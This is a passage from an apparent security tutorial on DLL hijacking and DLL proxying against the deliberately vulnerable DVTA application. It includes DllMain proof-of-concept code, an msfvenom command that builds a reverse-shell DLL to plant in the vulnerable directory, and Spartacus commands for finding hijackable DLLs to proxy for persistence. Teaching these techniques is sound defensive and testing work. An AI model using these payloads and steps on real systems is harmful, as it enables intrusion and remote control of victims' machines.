 ```
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
  t = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)calc, NULL, 0, NULL);
  CloseHandle(t);
  break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

void calc()
{
 system("calc.exe");
}
```

DLL's entry point is called "DLLMain" and it executes code via various conditions on how the DLL is called. When a process reads a function from the DLL it generally uses "DLL_PROCESS_ATTACH". We will store our custom code there!
After renaming the DLL "CRYPTSP.dll" and placing it on the vulnerable directory, we can confirm DLL hijacking vulnerability, after executing the DVTA.exe binary:
DLL Proxying
Theory
While performing the previous DLL Hijacking, the chances are that the binary will break either on start up or at runtime after loading our custom DLL. We can confirm that by replacing the previous DLL with a one from msfvenom for reverse shell callback.
During the demo I used the following msfvenom payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f dll -o CRYPTSP.dll
After executing the DLL hijacked binary, we can observe that the shell callback is present, but the binary is not yet started.
This is because of 2 problems:
The thread is occupied by the reverse shell.
The execution flow is unknown, meaning after executing the shell, the binary is still corrupted.

Setup
To solve this problem we must perform something called DLL proxying. It looks like this:
source: https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistenceDLL proxying is a technique to restore the native DLL execution flow (function calls) so the binary is not corrupted. Luckily, there are tools which can export the functions and even generate a CPP template.
One such tool is called spartacus (https://github.com/Accenture/Spartacus)
Spartacus requires procmon to be installed.
To run spartacus, you can follow the syntax:
.\Spartacus-v1.2.0-x64.exe --procmon C:\Users\user\Desktop\Procmon64.exe --pml test.plm --csv ./output.csv --exports . --verbose
Spartacus will automatically engage with procmon, setup filters and find DLL hijackable binaries. After finding such, it will try to export all the functions it needs from the mentioned DLL.
After executing the command, make sure to execute the targeted binary, and then terminate spartacus by pressing enter, it will generate similar output:
From the output, spartacus founds which DLLs are hijackable, exports their functions and generates a cpp template for the DLL.
The cpp template (for CRYPTSP.dll) looks like this in my example:
#pragma once
